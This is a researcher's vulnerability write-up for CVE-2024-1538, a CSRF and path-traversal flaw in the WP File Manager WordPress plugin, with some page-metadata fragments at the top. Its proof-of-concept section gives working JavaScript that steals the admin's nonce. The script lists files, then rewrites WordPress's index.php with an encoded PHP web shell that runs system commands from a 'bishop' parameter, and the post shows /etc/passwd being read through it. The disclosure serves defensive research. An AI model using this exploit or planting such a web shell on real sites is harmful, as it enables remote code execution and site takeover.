 
  author: 'Daniel',
  date: '2024-02-15',
  title: 'CSRF to RCE with WP File Manager',
  description:
    'CVE-2024-1538',
}

  title: article.title,
  description: article.description,
}



### Plugin: CSRF to RCE with WP File Manager

- **Version:** 7.2.2
- **Author:** [Nota-Info](https://wordpress.org/plugins/wp-file-manager/)
- **Last Updated:** 7 days ago
- **Requires WordPress Version:** 4.0 or higher
- **Compatible up to:** 6.6.1
- **Requires PHP Version:** 5.2.4 or higher
- **Active Installations:** 1,000,000 +

https://wordpress.org/plugins/wp-file-manager/

## Addendum

Wordfence wrote their own article for this CVE.
https://www.wordfence.com/blog/2024/03/601-bounty-awarded-for-interesting-cross-site-request-forgery-to-local-js-file-inclusion-vulnerability-patched-in-file-manager-wordpress-plugin/

## Description 

The File Manager plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 7.2.4. 
This is due to missing or incorrect nonce validation on the wp_file_manager page that includes files through the 'lang' parameter. 
This makes it possible for unauthenticated attackers to include local JavaScript files that can be leveraged to achieve RCE via a 
forged request granted they can trick a site administrator into performing an action such as clicking on a link. 
This issue was partially patched in version 7.2.4, and fully patched in 7.2.5.

### Discovery 

Initially carrying out checks for LFI noticed the Language select field would try to get a Javascript file depending on the language selected. A request was still made when the field was empty, and directory traversal was possible with "../". 

A ".js" is appended to the query, initially I tried splitting the URL with null bytes, converting the lang parameter to another query, adding # for a split on the fragment, while it may be possible; I moved on.

http://127.0.0.1:1337/wp-admin/admin.php?page=wp_file_manager&lang=bg#elf_l1_Lw

<Image src={Image1} alt="" />

After switching the language the application is trying to find:
```
http://127.0.0.1:1337/wp-content/plugins/wp-file-manager/lib/js/i18n/elfinder.bg.js?ver=7.2.2
```

Modifying the URL:
```
http://127.0.0.1:1337/wp-admin/admin.php?page=wp_file_manager&lang=../../../../../../#elf_l1_Lw
```
<Image src={Image2} alt="" />

After Inserting the "../" the resulting query looks like this.
```
http://127.0.0.1:1337/wp-content/plugins/.js/?ver=7.2.2
```
providing a sufficient amount will hit the base URL:
```
http://127.0.0.1:1337/wp-admin/admin.php?page=wp_file_manager&lang=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F#elf_l1_Lw
```
<Image src={Image3} alt="" />

This increases the attack vector as the attacker has more opportunities to upload a JavaScript file on the server. 

## Attack prerequisites 

Given the "lang" parameter is requesting a JavaScript file and we can have the freedom to control where the victim retrieves it from.
We need to create a malicious JavaScript file; fairly typical for CSRF vulnerabilities to exploit the privileges of the victim to promote an attackers account, 
this attack doesn't specifically require the attack to be authenticated; so long as they can get a JavaScript file on the host. 
The Proof of concept script allows Remote Code Execution by getting the Administrator to edit a WordPress PHP file, appending basic Web Shell capabilities. 

For this example Ill be placing the poc.js file, under the "/wp-content/uploads/" directory.

## Proof Of Concept

### poc.js

```javascript

    function genRid(){
        return reqId = (+ new Date()).toString(16) + Math.floor(1000 * Math.random()).toString(16);
    }

```

The WordPress Nonce is read from the document object available when the script is first called.

```javascript

    var nonceget = document.querySelector("#file_manager_free_shortcode_admin-jsextra").text;
    nonce = nonceget.slice(89,99);

```

The initial XMLHttpRequest utilizes the WordPress nonce and retrieves a list of files from WP
File Manager.

```javascript

    var req1 = new XMLHttpRequest();
    req1.open('GET', `http://127.0.0.1:1337/wp-admin/admin-ajax.php?action=mk_file_folder_manager&_wpnonce=${nonce}&networkhref=&cmd=open&target=l1_Lw&init=1&tree=1&_=1707815126701`, false);
    req1.withCredentials = true;
    req1.send();
    var obj = JSON.parse(req1.response);
```

If the resulting Object returns with files; index.php is located. 

```javascript
    
    if (obj['files']){
        obj['files'].forEach(element => { if (element['mime'] == "text/x-php" && element['name'] == "index.php") { editFile(element); } }); 
    } 
```

Finally the file is edited with a XMLHttpRequest inserting malicious PHP along with the exsisting file content in the base WordPress index.php file.

```javascript

    function editFile(element){
        
        var payload = "%3C%3Fphp%0Adefine(+'WP_USE_THEMES'%2C+true+)%3B%0Arequire+__DIR__+.+'%2Fwp-blogheader.php'%3B%0A%0Aif+(isset(%24_REQUEST%5B%22bishop%22%5D))%7B%0A%09echo+system(%24_REQUEST%5B%22bishop%22%5D)%3B%0A%7D%3B";
        var params = `action=mk_file_folder_manager&_wpnonce=${nonce}&networkhref=&cmd=put&target=${element["hash"]}&encoding=UTF-8&content=${payload}&reqid=${genRid()}`;
        var freq = new XMLHttpRequest();
        freq.open('POST', 'http://127.0.0.1:1337/wp-admin/admin-ajax.php', false);
        freq.withCredentials = true;
        freq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        freq.send(params);
        var freqResponse = freq.response;
    }

```

If successful the system commands can be executed via appending a bishop parameter to the
index page.

<Image src={Image4} alt="" />
The contents of /etc/passwd